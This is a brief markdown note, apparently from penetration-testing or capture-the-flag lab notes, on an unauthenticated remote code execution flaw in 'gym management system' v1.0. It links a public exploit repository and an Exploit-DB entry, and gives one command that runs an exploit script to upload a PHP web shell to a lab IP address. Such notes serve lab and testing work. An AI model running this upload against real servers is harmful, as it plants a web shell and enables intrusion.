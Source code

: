 # gym management system

## v1.0 (unauthenticated RCE)

```bash
# linux os
https://github.com/ssMMiles/gym-management-unrestricted-upload
# uploads shell.php to target
$ python exploit.py -t 10.10.10.198:8080 -f shell.php

# windows os
https://www.exploit-db.com/exploits/48506
```
